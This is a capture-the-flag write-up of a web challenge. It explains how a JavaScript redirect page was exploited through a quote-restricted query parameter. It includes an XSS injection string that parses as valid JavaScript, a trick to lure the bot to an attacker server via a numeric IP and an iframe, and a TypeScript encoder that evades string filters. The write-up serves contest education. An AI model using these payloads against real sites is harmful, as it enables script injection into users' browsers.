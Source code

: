 # Bounty Pl33z

Author: [@zwad3](https://twitter.com/zwad3)

Everyone loves bug bounties, right? They're even better when you get an 🍊flag from them.

## Overview

The setup for this problem is reminiscent of the classic XSS problem. Dropped into the site, all you have is a URL submission field (that is whitelisted to the current domain), and a link to "bugs." Curiously, clicking this link brings you not to another page, but rather to a broken URL (bugs.orange.ctf). I wonder if the problem is working?

## Line of Bugs

As it turns out, clicking that link does not directly take you to bugs.orange.ctf, but rather leads you to `/fd.php?q=bugs` first. The result of that page is a small javascript application that forwards you to bugs.orange.ctf. Let's see what we can do with this

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8"/>
    <script type="text/javascript">
        if (window.top == window.self) {
            window.self.location.href = "https://bugs.orange.ctf/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";
        } else {
            var data = JSON.stringify({
                message: 'CTF.API.remote',
                data: {
                    location: "https://bugs.orange.ctf/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361"
                }
            });
            window.parent.postMessage(
                data,
                "https://bugs.orange.ctf"
            );
        }
    </script>
</head>
<body>
</body>
</html>
```

What happens when we change the query parameter to be something else? If this is just doing string replacement, setting it to be a double quote should break things entirely.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8"/>
    <script type="text/javascript">
        if (window.top == window.self) {
            window.self.location.href = "https://".orange.ctf/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";
        } else {
            var data = JSON.stringify({
                message: 'CTF.API.remote',
                data: {
                    location: "https://".orange.ctf/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361"
                }
            });
            window.parent.postMessage(
                data,
                "https://".orange.ctf"
            );
        }
    </script>
</head>
<body>
</body>
</html>
```

Oh look, it broke things entirely. After playing around with it, we found that there were a few limitations to what your query could be. Specifically, it could not have

 1. More than one double quote
 2. More than one single quote
 3. Any slashes
 4. Any backslashes
 5. Any periods

Losing quotes and comments is a huge pain, but we still have unlimited template strings. I wonder what we can do with those.

## Some Time Later

The biggest difficulty here is getting somethign that parses as valid JS. Once we have that, it should be easy to turn it into somethign useful, but getting a valid JS file when your injection goes to three seperate places is quite the challenge. After an hour or two spent playing with it, we finally came up with the string

```js
`}`}; alert(1); {("; `}; class ${x = `${`
```

When injected into the URL, this becomes valid JS. Furthermore, with some restrictions, you can inject code where the `alert(1)` is as long as it doesn't have any strings in it. However, there's an issue. Namely, this will never be run when loaded directly. The top level `if` clause will be satisfied, and instead of executing our code the browser will try to navigate to an invalid link. If we want our exploit to work, we need the `if` condition to return false.

## Offsite Trading Company

We can do this by loading our exploit inside of an `iframe` on a page we control. However to do that we need to get the bot to our site in the first place. We can't make normal URLs without the `.` character, but fortunately we can create a server and use the numeric form of the IP to navigate there. For instance, our server was hosted at `134.209.220.198`, but we can represent that as `2261900486`. If we just set the `q` parameter to be `2261900486?`, the bot will visit us. This does require us to host over HTTPS, but the bot accepts self-signed certs so this isn't an issue.

From there, we can simply downgrade the connection to HTTP, and load our exploit in an iframe. To get around the lack of strings in our injection point, I wrote this silly little render function:

```ts
let makeDumbLetter = (l: string) => {
    return `((function ${l}() {}) + [])[9]`;
}

let render = (js: string) => {
    let fnName = "fromCharCode".split("").map((c) => makeDumbLetter(c)).join(" + ");
    return `eval(String[${fnName}](${js.split("").map((c) => c.charCodeAt(0)).join(",")}))`;
}
```

That's it! Send the initial payload to bot and make sure your server responds with an appropriate payload. You can see the full exploit script at [exploit.ts](https://github.com/pwning/writeups/blob/master/hitcon2019/bounty_pl33z/index.ts).